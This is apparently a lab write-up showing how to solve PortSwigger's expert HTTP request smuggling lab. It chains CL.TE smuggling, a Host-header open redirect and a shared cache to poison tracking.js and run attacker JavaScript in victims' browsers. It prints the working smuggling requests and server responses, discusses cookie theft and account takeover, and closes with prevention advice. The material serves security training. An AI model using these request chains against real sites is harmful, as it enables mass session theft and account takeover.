



# Exploiting HTTP request smuggling to perform web cache poisoning

## Introduction

- **Platform**: [Portswigger](https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-poisoning)
- **Difficulty**: Expert
- **Vulnerability**: HTTP request smuggling
- **Date Solved**: 2026-02-07
- **Author**: Ammar Sabit ([Zer0DayDreamer](https://medium.com/@Zer0DayDreamer))

## Lab Overview



- This lab requires chaining an HTTP request smuggling vulnerability with a web cache and an on-site open redirect to poison the cache and serve JavaScript from an attacker-controlled location.

## High-Level Attack Chain

1. A CL.TE request smuggling vulnerability allows desynchronization between frontend and backend request parsing.
2. An open redirect endpoint reflects the Host header into a redirect response.
3. A shared web cache stores responses for static JavaScript assets.
4. By smuggling a redirect response into a cacheable JavaScript request, the attacker poisons the cache.
5. Victims loading the poisoned JavaScript are redirected to attacker-controlled code, resulting in persistent XSS.

## Identifying the Gadgets

### i. CL.TE Request Smuggling

- The application architecture consists of a frontend component(load balancer, reverse proxy, cache server) and the backend application server
- The frontend server doesn’t support chunked encoding, which means the frontend uses only `Content-Length` to determine the ending of the request body and doesn’t respect the presence of the `Transfer-Encoding`, although both of these request headers define the ending of the request body
- However, the lab description only specified that the frontend doesn’t support the TE. We haven’t been told whether the backend server supports chunk encoding. That means that if the backend supports the TE, we can use this discrepancy to abuse `CL.TE` HTTP request smuggling vulnerability
- To verify whether the backend behaves in this manner, we can send a request that includes both Content-Length and Transfer-Encoding headers, with a chunk size larger than the actual number of present chunk bytes and a correct Content-Length value.
- Because the frontend considers the request complete while the backend does not, the remaining bytes are interpreted as the start of the next request on the same connection.
- I sent the following request

```bash
POST / HTTP/1.1
Host: 0aab00b503e782d38036443d00710080.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 12
Transfer-Encoding: chunked

9
nothing
```

> Here, both the `Content-Length` and `Transfer-Encoding` headers are present, and the frontend uses the CL to determine the content of the body, which is 12 bytes(correct body content), and passes the request to the backend with the full body present. But the backend sees the TE to determine the size of the body, which is set to 9, although the real chunk size is 7, so the backend thinks there are other contents coming and waits for them to arrive because there is nothing left coming, it times out, and returns the following Internal Server Error

```html
<html>
  <head>
    <title>Server Error: Proxy error</title>
  </head>
  <body>
    <h1>Server Error: Read timed out</h1>
  </body>
</html>
```
> This proves to us that the backend supports the `Transfer-Encoding`, unlike the frontend

- To confirm the application is really vulnerable to `CL.TE` request smuggling, we can leave some buffers in the TCP stream, which will later be interpreted as the start of a new request
- To do this, I sent this attack request to the left HTTP request in the buffer, fooling the backend, where really the request ends

```bash
POST / HTTP/1.1
Host: 0aab00b503e782d38036443d00710080.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Transfer-Encoding: chunked

7
nothing
0

GET /404 HTTP/1.1
x: 
```
> In this request, the backend thinks the requests end at `0\r\n\r\n` and thinks the rest is the start of a new request

- To see the effect of the left buffer, I sent this normal GET request

```bash
GET / HTTP/1.1
Host: 0aab00b503e782d38036443d00710080.web-security-academy.net
```
- And got a 404 response because the backend thinks the request starts with `GET /404 HTTP/1.1`, and the full request the backend sees is

```bash
GET /404 HTTP/1.1
x: GET / HTTP/1.1
Host: 0aab00b503e782d38036443d00710080.web-security-academy.net
```
- And the server responded `404 Not Found`
- After this, we can be confident that the application is really vulnerable to `CL.TE`

### ii. Web Cache Behavior

- Although the presence of a web cache is not a vulnerability by itself, we use it to deliver a poisoned response to the user
- If the application uses a web cache, it is most likely configured to cache static files
- Looking at the responses for the static files, I saw the following header in the response of `GET /favicon.ico`

```bash
HTTP/2 200 OK
Content-Type: image/x-icon
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 8
X-Cache: hit
Content-Length: 15406
```
> The presence of `X-Cache: hit` header tells us we just served cached content

#### iii. Open Redirect

- The next thing we need in our chain is an on-site open redirect. This, too, is not a problem by itself, but we weaponize it in our attack chain
- If we pay close attention to the details of the blog post page after the comment section, we will notice two buttons: `Back to Blog` and `Next Post`. If we click the next post button, it takes us to the next blog post
- Inspecting the request `GET /post/next?postId=1` sent the response, which is actually a redirection `303` to `Location: https://host/post?postId=2`
- That means if we change the host header, we can redirect the request to wherever we want

- At this point, we could identify every gadget we need in our chain

### Exploitation

1. Smuggle request to redirect the request to the exploit server

- As we discovered, the application redirects every request sent to `/post/next?postId=1` to the specified host in the header. We can smuggle this request to redirect the next incoming request to our exploit server

```bash
POST / HTTP/1.1
Host: 0aab00b503e782d38036443d00710080.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Transfer-Encoding: chunked

7
nothing
0

GET /post/next?postId=1 HTTP/1.1
Host: exploit-0abc00dd04ffc34380c339af01f100b6.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

x=
```
> This request leaves `GET /post/next?postId=1...` in the tcp buffer of the backend, which means the next coming request will be appended as a body of this request, so the next normal `Get /` request will look like this from the server's point of view

```bash
GET /post/next?postId=1 HTTP/1.1
Host: exploit-0abc00dd04ffc34380c339af01f100b6.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

x=GET / HTTP/1.1
Host: 0aea00b404f2c36e80de3af50005007a.web-security-academy.net
```

- And the server responded a redirection to the specified host

```bash
HTTP/1.1 302 Found
Location: https://exploit-0aea00b404f2c36e80de3af50005007a.exploit-server.net/post?postId=2
Set-Cookie: session=iG6GVELOitWUrAziQrssrWONFnJcgtUe; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 0

```

2. Store the necessary script on the exploit server

- We were able to verify that we can redirect a request to the server under our control using request smuggling. That means we can serve anything we want from there
- To demonstrate impact, attacker-controlled JavaScript was served that executes `alert(document.cookie)` in the victim’s browser.
- The redirection we saw from the smuggled response is `https://exploit-0aea00b404f2c36e80de3af50005007a.exploit-server.net/post?postId=2`, so we need to adjust the URL accordingly on the exploit server



- We can verify whether the application is fetching our script by following the redirection 

3. Find cacheable js file

- We need to find a JS that we would potentially poison that is also reflected in the application
- With simple inspection, we can spot that `tracking.js` is cacheable and also reflected in the home of the application
- `tracking.js` is what we are going to poison

4. Poison the cache 

- We already know how to abuse request smuggling to return unintended response, an open redirection, and also web cache. We can abuse all three of these to deliver critical damage
- We can redirect the next incoming request with the following attack request

```bash
POST / HTTP/1.1
Host: 0aab00b503e782d38036443d00710080.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Transfer-Encoding: chunked

7
nothing
0

GET /post/next?postId=1 HTTP/1.1
Host: exploit-0abc00dd04ffc34380c339af01f100b6.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

x=
```

- To poison the cache we send the following normal request 

```bash
GET /resources/js/tracking.js
HOST: 0aab00b503e782d38036443d00710080.web-security-academy.net
```

- Because there is already a left buffer, the normal request will be interpreted like this

```bash
GET /post/next?postId=1 HTTP/1.1
Host: exploit-0abc00dd04ffc34380c339af01f100b6.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

x=GET /resources/js/tracking.js
HOST: 0aab00b503e782d38036443d00710080.web-security-academy.net
```

- Here is where things get very interesting
- The web cache is interpreted to cache static files depending on either their file extension or the folder they are being served from relaying on how it is configured to cache static files for performance reason
- We were able to identify that JS files are considered static and cached by the cache server. When we ask for `/resources/js/tracking.js` the cache server thinks well, this is cacheable content, so I will cache the response and serve the cached version for the coming 30 seconds(`Cache-Control: max-age=30`)
- However, because of the smuggled request, the response to the normal-looking request is a redirection to our exploit server
- The cache server caches the redirection, which leads to a successfull poison of the cache server. Any request for this JS file will receive a redirection without the request really hitting the backend, where the intended JS file is living
- The browser follows the redirection, getting our attack script and successfully writes it to the DOM, leading to a full cross-site-scripting without any interaction from the user. This way, a potential attacker can deliver XSS to every possible user requesting the file by continuously poisoning the cache the same way we just did
- The simulated victim eventually visits the home page, which requests `tracking.js`, and the cache server serves the poisoned response, which redirects the browser to fetch the `alert(document.cookie)` hosted on our exploit server, leading to an alert in the victim's browser
- This confirms successful cache poisoning and execution of attacker-controlled JavaScript in victim browsers.



### Impact 

- Even though open redirects or request smuggling or the presence of a web cache alone doesn’t seem to have that much exploitable impact, when they are chained in the correct order, they can give birth to  catastrophic cross-site scripting without any interaction from a user
- Once the attacker can deliver cross-site scripting it's game over. They can steal the user's session cookie, leading to full account takeover, capture the user's password if they use somekind of password manager, capture a user's CSRF token, in general, they can perform any action more or less that the user can do in their browser with well crafted JavaScript
- What makes this far more dangerous than normal reflected cross site scripting is that normal xss do require some kind of user interaction, such as inducing the user into clicking a crafted link but in this context, the attacker can compromise every user fetching the poisoned content. More dangerously, if the poisoned content is part of the home page that every active user visits frequently, the attacker can take over accounts of every active user of the application, which is something catastrophic for both the end user and the application owner

### Prevention

1. Eliminate request smuggling primitives 
  - Ensure consistent request parsing between frontend and backend servers.
  - Reject any request containing both Content-Length and Transfer-Encoding headers.
  - Normalize request parsing at the edge (load balancer / reverse proxy).
  - Disable support for Transfer-Encoding: chunked if it is not strictly required.
  - If possible avoid using HTTP/1; instead use HTTP/2

2. Harden the cache behavior
  - Never cache responses that contains Redirects (3xx), Set-Cookie headers and Responses influenced by untrusted headers (e.g., Host)

3. Secure redirects logic 
  - Avoid constructing redirects directly from user-controlled headers such as Host.

4. Implement a strict Content Security Policy (CSP) to reduce XSS impact.

## Conclusion

This lab demonstrates how individually low-impact issues can be chained to achieve a high-impact, persistent client-side compromise through web cache poisoning.
